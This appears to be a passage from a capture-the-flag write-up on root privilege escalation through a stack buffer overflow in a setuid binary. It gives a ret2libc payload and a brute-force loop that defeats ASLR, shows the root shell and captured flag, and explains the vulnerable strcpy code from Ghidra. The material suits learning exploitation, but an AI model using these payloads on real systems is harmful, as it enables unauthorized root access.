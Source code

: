 Buffer overflow goes: JUNK + SYSTEM (overwrite ret address) + EXIT (add next return address) + "/bin/sh" (arguments).
## Exploit
If ASLR weren’t enabled, I could just do this:
```bash
$ /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\xe3\x5b\xb7" + "\x60\x12\x5b\xb7" + "\xac\x0b\x6e\xb7"');
```
Because ASLR is enabled, I can simple run an infinite loop, to run this and there's 99.99% chance of popping a shell in 5000 tries.
```bash
$ while true; do /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\xe3\x5b\xb7" + "\x60\x12\x5b\xb7" + "\xac\x0b\x6e\xb7"'); echo -n "Try $i:"; let "i++";done

Try 67:bash: [16130: 1 (255)] tcsetattr: Inappropriate ioctl for device
Try 68:bash: [16130: 1 (255)] tcsetattr: Inappropriate ioctl for device
Try 69:bash: [16130: 1 (255)] tcsetattr: Inappropriate ioctl for device
whoami
root
cat /root/root.txt
6bcb9cff749c9318d2a6e71bbcf30318
```

# Beyond root
## Theory
This is what the code looks like from ghidra:
```c
undefined4 main(int param_1,undefined4 *param_2)
{
  char local_74 [112];
  
  if (param_1 < 2) {
    printf("Syntax: %s <input string>\n",*param_2);
    exit(0);
  }
  strcpy(local_74,(char *)param_2[1]);
  return 0;
}
```
And this is what it looks in assembly code:
```c
080484b5 89 44 24 04     MOV        dword ptr [ESP + local_8c],EAX   //copy the value in EAX to the address esp+local_8c
080484b9 8d 44 24 1c     LEA        EAX=>local_74,[ESP + 0x1c]		 //copy the value at esp+0x1c to EAX
080484bd 89 04 24        MOV        dword ptr [ESP]=>local_90,EAX	 //copy EAX to the value at ESP
080484c0 e8 7b fe ff ff  CALL       strcpy                           //call strcpy
```
## How Stack works?
Stack allows a function to call another function, knowing that function could call any number of functions. Each time a function returns, it is able to put the state back as it is expected by the calling function.
